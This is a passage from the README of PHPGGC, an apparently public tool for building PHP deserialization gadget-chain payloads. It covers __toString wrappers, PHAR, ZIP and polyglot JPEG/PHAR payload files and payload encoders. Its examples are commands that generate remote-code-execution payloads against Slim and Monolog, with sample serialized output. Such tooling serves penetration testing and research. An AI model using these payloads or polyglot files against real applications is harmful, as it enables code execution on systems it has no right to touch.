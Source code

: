You could use a `__toString()` chain, wrapping it like so:

```php
<?php
# /tmp/my_wrapper.php
function process_object($object)
{
    return array(
        'message' => $object
    );
}
```

And you'd call phpggc like so:

```
$ ./phpggc -w /tmp/my_wrapper.php slim/rce1 system id
a:1:{s:7:"message";O:18:"Slim\Http\Response":2:{...}}
```


## PHAR(GGC)

### History

At BlackHat US 2018, @s_n_t released PHARGGC, a fork of PHPGGC which instead of building a serialized payload, builds a whole PHAR file. This PHAR file contains serialized data and as such can be used for various exploitation techniques (`file_exists`, `fopen`, etc.). The paper is [here](https://cdn2.hubspot.net/hubfs/3853213/us-18-Thomas-It's-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-....pdf).

### Implementation

PHAR archives come in three different formats: **PHAR, TAR, and ZIP**. The three of them are supported by PHPGGC.
Polyglot files can be generated using `--phar-jpeg` (`-pj`). Other options are available (use `-h`).

### Examples

```
$ # Creates a PHAR file in the PHAR format and stores it in /tmp/z.phar
$ ./phpggc -p phar -o /tmp/z.phar monolog/rce1 system id
$ # Creates a PHAR file in the ZIP format and stores it in /tmp/z.zip.phar
$ ./phpggc -p zip -o /tmp/z.zip.phar monolog/rce1 system id
$ # Creates a polyglot JPEG/PHAR file from image /tmp/dummy.jpg and stores it in /tmp/z.zip.phar
$ ./phpggc -pj /tmp/dummy.jpg -o /tmp/z.zip.phar monolog/rce1 system id
```


## Encoders

Arguments allow to modify the way the payload is output. For instance, `-u` will URL encode it, and `-b` will convert it to base64.
**Payloads often contain NULL bytes and cannot be copy/pasted as-is**. Use `-s` for a soft URL encode, which keeps the payload readable.
